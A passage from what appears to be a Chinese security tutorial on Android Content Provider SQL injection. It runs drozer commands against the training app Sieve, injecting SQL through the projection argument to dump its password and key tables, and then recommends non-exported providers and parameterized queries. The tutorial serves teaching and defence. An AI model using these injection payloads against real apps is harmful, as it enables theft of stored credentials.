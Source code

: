   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjFo3Wiau9Zk1f3wbdNjiaTUwN2smhZpBVk6X6xK1GY3F13MWVNvg0KLrQ/640?wx_fmt=png "")  
  
  
然后我们执行以下命令，发现返回了报错信息，接着构造sql获取敏感数据  
```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection " * from Key;--+"
```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjKfRhWcD6MSz4LfeN2iaic4yhYbRLnjbr45iaia63Ia4p7X7TXV7DkFMr6w/640?wx_fmt=png "")  
  
  
列出所有表信息：  
```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjkODesWdb8Cic04wiaSSHlNLgWuwWTrQWxGsSzfegC7SpVW2AC8SZJKVw/640?wx_fmt=png "")  
  
  
获取具体表信息  
```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjXHpJRKqmUEREsYTkWt2EfpnicX6gMOkkVfoGVSoGeUku7U6cQTGdkNA/640?wx_fmt=png "")  
  
列出该app的表信息  
```
run scanner.provider.sqltables -a  com.mwr.example.sieve
```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjHgQmEqLguSeN2GuGwp49Wz26liaXicOdYiaianMv9hQ3PK5icGYPoaqGJbw/640?wx_fmt=png "")  
###   
### 4.安全防护  
  
（1）不需要导出的Content Provider组件，建议显示设置组件的“android:exported”属性为false  
  
   
  
（2）当组件可导出时，建议使用selectionArgs进行参数化组成SQL语句，例如：  
```
String inputUserName = "xxxx";
String inputPassword = "xxxx";
String sql = "select *from user where username=? and password=?";
Cursor cursor = db.rawQuery(sql,new String[]{username,password});
```  
  